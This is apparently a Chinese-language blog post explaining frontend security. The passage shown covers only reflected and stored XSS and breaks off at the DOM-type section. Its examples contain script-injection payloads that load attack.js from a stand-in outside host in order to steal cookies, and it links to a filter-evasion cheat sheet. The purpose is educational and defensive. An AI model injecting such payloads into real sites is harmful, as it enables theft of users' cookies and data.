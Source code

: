 ```yaml
---
title: '前端安全'
pubDate: 2023-04-14 12:00:00
description: '安全问题无小事，而前端通常就是Web安全防护的第一道屏障'
author: 'CafeKiller'
image:
    url: ''
    alt: ''
tags: ["前端", "Web开发", "安全"]
class: '技术'
---
```


前端安全是确保 Web 应用程序在客户端环境中免受攻击和数据泄露；前端安全需要从多个层面进行防护，包括输入输出处理、依赖管理、数据存储和传输等。通过遵循最佳实践和使用现代安全机制，可以有效降低前端安全风险。

> 多数时候安全往往需要高成本和高人力支出和维护，它与现代要求的敏捷开发是完全不同的，这也就意味作为开发者的我们需要自行均衡这两点。

前端安全其实最需要记住的一点就是：**不要在页面中插入任何不可信数据，除非这些数据已经据根据编码规则进行了编码**。前端安全涉及的内容相当宽泛，这篇文章主要介绍：「XSS」 「CSRF」 「MITM」

# XSS

跨站脚本攻击，*Cross Site Scripting*，简称 XSS <small-text>正常来说应该简称CSS，但是为了和CSS（层叠样式表）做出区分，故此改简称为XSS</small-text> 恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

防范 XSS 秘诀：「对输入进行验证」 和 「对输出进行编码」，强烈推荐阅读一下这篇文章：[XSS Filter Evasion Cheat Sheet 中文版](https://www.zybuluo.com/laodao/note/9592)，看完你会发现 XSS 有非常多不同种类的攻击方式。这里我们介绍几个常见的：

## 反射型

其原理为攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

> **示例：**  
> 攻击者诱导被害者打开链接 `hzfe.org?name=<script src="http://a.com/attack.js"/>`  
> 被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模版中，并返回数据；  
> 被害者在不知情的情况下，执行了攻击者注入的脚本，获取到被害者的浏览器 cookie 和其他敏感数据。

## 持久型

其原理为攻击者将注入脚本提交到被攻击网站的数据库中，当有其他用户使用浏览器访问并请求数据时，注入脚本从服务器返回并执行。

> **示例：**  
> 
> 攻击者在目标网站类似留言板模块中提交了 `<script src='http://a.com/attack.js'>`  
> 目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中；  
> 其他用户在访问该留言板模块时，会自动执行攻击者注入脚本。

## DOM型

原理就是攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。
